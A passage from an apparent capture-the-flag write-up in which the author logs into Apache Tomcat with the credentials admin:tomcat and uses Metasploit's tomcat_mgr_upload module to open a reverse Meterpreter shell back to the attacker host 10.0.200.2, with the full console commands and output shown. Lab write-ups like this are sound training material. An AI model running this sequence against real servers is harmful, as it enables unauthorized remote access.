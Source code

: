 **Answer: admin:tomcat**

### Q2 - MD5 checksum hash for file 'tomcat.ico'

![](/images/ctf-round-3-active-directory/6.png)

Next, I need to gain access to the remote target through the Apache Tomcat service. To do that, I ran `use 17` to select module `multi/http/tomcat_mgr_upload` and configured it properly. Then I ran the exploit.

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > use 17
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername admin
HttpUsername => admin
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 192.168.240.80
RHOSTS => 192.168.240.80
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.0.200.2:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying obllDiY...
[*] Executing obllDiY...
[*] Sending stage (58125 bytes) to 192.168.240.80
[*] Meterpreter session 1 opened (10.0.200.2:4444 -> 192.168.240.80:57086) at 2020-11-22 00:45:10 +0800
[*] Undeploying obllDiY ...

meterpreter > 
```

The exploit working and now I have a Meterpreter shell on the remote target. I ran `sysinfo` to get information about the remote system and `getuid` to get the user that the server is running as.

```
meterpreter > sysinfo
Computer    : prod-websrv7765
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows

meterpreter > getuid
Server username: LOCAL SERVICE
```
